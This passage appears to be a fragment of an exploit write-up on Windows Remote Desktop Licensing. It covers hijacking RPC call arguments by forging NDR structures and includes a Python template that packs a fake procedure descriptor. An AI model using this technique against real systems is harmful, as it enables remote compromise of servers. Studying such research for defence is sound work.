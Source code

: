 ```c

    JBSession  m_JetSession;
    JBDatabase m_JetDatabase;


    LicPackTable            m_LicPackTable; // Target
    LicensedTable           m_LicensedTable;
	...

} TLSDbWorkSpace, *LPTLSDbWorkSpace, *PTLSDbWorkSpace;
```

![](../img/Pasted%20image%2020241012102221%202.png)

## 3.4 Hijack Arguments

As the graph indicates above, the rcx is a pointer to the `pbWorkSpace`, which is unuseable in most of the cases. Because its first element must be `*m_LicPackTable`.

Then we look into the magical `NdrServerCall2()`. It receives a pointer to structure `RpcMsg` as the only argument, and finally calls the structure related pointer with structure related argument list (though rather complicated).

`NdrServerCall2() -> NdrStubCall2() -> ... -> Invoke()`

Anyway, the function is so f complicated. It does so many things to parse `RpcMsg`, most parts can be easily(?) bypassed by constructing structures.

The hardest part is that they deliver the attributes of arguments in a certain formated string. After reversing, I made a template for better use.

```python
    pbWorkSpace += b"\x32\x48"
    pbWorkSpace += b"\x00\x00\x00\x00"
    pbWorkSpace += b"\x00\x00" #procNum
    pbWorkSpace += p16(argnum * 8) #stacksize
    # pbWorkSpace += b"\x30\xe0\x00\x00\x00\x00"
    # NdrInfo.pProcDesc
    pbWorkSpace += b"\xc0\x00\x10\x00" #ClientBufferSize & ServerBufferSize
    pbWorkSpace += b"\x40" #Oi2Flags
    pbWorkSpace += p8(argnum * 2) #NumberParams
    # NdrExts
    pbWorkSpace += b"\x0a" #Size
    pbWorkSpace += b"\x01\x00\x00" #Flags2 & ClientCorrHint & ServerCorrHint
    pbWorkSpace += b"\x00\x00\x00\x00" #NotifyIndex
    pbWorkSpace += b"\x00\x00"
    # Params
    for i in range(argnum * 2):
        pbWorkSpace += p16(0x48)
        pbWorkSpace += p16(i * 4)
        pbWorkSpace += p16(0x09)
```
